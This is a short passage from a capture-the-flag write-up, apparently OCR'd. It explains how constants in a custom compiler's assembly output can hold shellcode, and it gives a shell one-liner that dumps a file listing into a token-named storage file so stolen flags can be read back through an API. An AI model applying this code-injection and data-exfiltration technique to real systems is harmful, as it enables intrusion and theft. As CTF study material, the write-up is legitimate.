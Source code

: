 ```
    }
}
```

Compiled into:
```
.section .text
.globl main

main:
    push    %rbp
    mov     %rsp,%rbp
    movsd   _c_const_main_0(%rip),%xmm0
    sub     $0x10,%rsp
    movsd   %xmm0,(%rsp)
    movsd   _c_const_main_1(%rip),%xmm0
    movaps  %xmm0,%xmm1
    movsd   (%rsp),%xmm0
    add     $0x10,%rsp
    comisd  %xmm1,%xmm0
    jae ._0
    movsd   _c_const_main_2(%rip),%xmm0
    leaveq
    retq
._0:


_c_const_main_2: .quad 0x40091eb851eb851f
_c_const_main_1: .quad 0x4000000000000000
_c_const_main_0: .quad 0x3ff0000000000000
.sign_bit: .quad 0x8000000000000000
)
```

Mixing this two notes, we can create program, that executes its own constants:
```
constant1..N = shellcode here;

fun main() {
    if (1 > 2) {
        return 3;
    }
}
```

### Note 3

You cant just execute `/bin/sh` - there is terminal for it inside program execution.
But you can store all stealed flag in storage by specified token with shell, ex:
```bash
mkdir -p /var/dcs/data/ru && rm -f /var/dcs/data/ru/ctfructfructfructfructfructfru && find /var/dcs/data -type f > /var/dcs/data/ru/ctfructfructfructfructfructfru && printf '\\00\\303' >> /var/dcs/data/ru/ctfructfructfructfructfructfru
```
Note, that you need to append 0, ret, into generated file to `GET /api/compute` works correctly.
